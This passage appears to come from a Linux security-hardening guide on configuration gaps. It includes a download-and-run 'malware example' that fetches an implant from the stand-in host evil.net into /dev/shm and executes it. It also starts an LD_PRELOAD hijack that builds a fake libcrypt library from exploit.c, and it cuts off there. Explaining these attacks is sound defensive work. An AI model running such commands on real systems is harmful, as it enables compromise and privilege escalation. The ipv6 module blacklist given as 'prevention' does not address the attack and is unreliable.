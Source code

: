      chattr +i /etc/rc.local                                                                                                                                                                                                          
      systemctl daemon-reload                                                                                                                                                                                                          
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ---                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ## Critical Configuration Gaps                                                                                                                                                                                                   
                                                                                                                                                                                                                                       
      ### A. Excessive Trust in Fetch Functions                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      # Memory-resident malware example                                                                                                                                                                                                
      fetch https://evil.net/x64-implant -o /dev/shm/.cache                                                                                                                                                                            
      chmod +x /dev/shm/.cache && /dev/shm/.cache --daemonize                                                                                                                                                                          
      ```                                                                                                                                                                                                                              
      **Prevention**:                                                                                                                                                                                                                  
      ```bash                                                                                                                                                                                                                          
      MODPROBE_BLACKLIST="ipv6"                                                                                                                                                                                                        
      iptables -A OUTPUT -d evil.net -j DROP                                                                                                                                                                                           
      ```                                                                                                                                                                                                                              
                                                                                                                                                                                                                                       
      ### B. Privilege Escalation Through Path Manipulation                                                                                                                                                                            
      ```bash                                                                                                                                                                                                                          
      # LD_PRELOAD hijacking variant                                                                                                                                                                                                   
      mkdir /tmp/w00t && cd /tmp/w00t                                                                                                                                                                                                  
      gcc -shared -fPIC -o libcrypt.so.1 exploit.c                                                                                                                                                                                     